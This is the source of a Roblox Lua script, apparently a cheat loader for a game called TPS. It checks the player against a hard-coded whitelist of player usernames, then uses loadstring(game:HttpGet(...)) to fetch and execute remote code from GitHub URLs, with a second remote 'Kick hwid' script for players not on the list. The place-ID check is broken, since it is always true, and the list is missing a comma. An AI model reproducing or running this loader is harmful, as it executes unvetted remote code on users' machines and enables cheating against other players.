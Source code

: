 local whitelist = {
    "abu_119",
    "Scope_Reborn",
    "youropgod",
    "Adanakerese", --me
    "sh4d0w_3z",
    "imaginingj",
    "qazztr",
    "orceantro",
    "NebulaWhisper",
    "OhhXavier",
    "iGalaxyKoala_XD",
    "a_erxksks13",
    "TpsWafiy",
    "Edu_nescauucs",
    "tpsibo_ydk",
    "N0ct1zX",
    "momazosMilitopa",
    "martin_figueroa21",
    "Zzzshadonwwzz_tt",
    "maxgabz2", -- 4 din ka mehmaan
    "a_erxksks13",
    "RandomTPSMOBILE",
    "tpsybloodzuser",
    "LightzUpThemAnkles",
    "ysjjsu91",
    "AHMED_YT1233",
    "xKinq_Fxrce",
    "vanguardxe",
    "martin_figueroa21",
    "boconhairnew", -- 1 din ruk
    "brunin_la",
    "dvessayy",
    "mokaarfa54",
    "Tps_Strakosha9",
    "Princeplayz_YTx",
    "vanguardxe",
    "Hiivver",
    "TPS_DUGOL2",
    "5mdmdUWU",
    "tps_gkMonster",
    "Mikecrackexet",
    "TPS_FLEX",
    "i8xfr",
    "dievin55",
    "JUSIAN_FNF",
    "Yasinqatar2233",
    "AnkledByRev",
    "Theonexll",
    "Zzz_tps2",
    "NormalFootballerNF", --limiteditemsking
    "ALMUTASIMq",
    "vibez_qxys",
    "Rockifails123456" 
    "jaguarisfast" -- giveaway winner
}

if table.find(whitelist, game.Players.LocalPlayer.Name) then
        local id = game.PlaceId
if id == 335760407 or 13762482705 then
game.StarterGui:SetCore("SendNotification",{
			Title = "Loading...";
			Text = "Loading will take some seconds...";
			Duration = 5;
})
    loadstring(game:HttpGet('https://raw.githubusercontent.com/ArdaAkpinar/drag/main/README.md%22'))()
else
    game.Players.LocalPlayer:Kick("It's not TPS SS!")
end
else
    loadstring(game:HttpGet("https://raw.githubusercontent.com/yBloodz/TPS-script/main/Kick%20hwid"))();
end

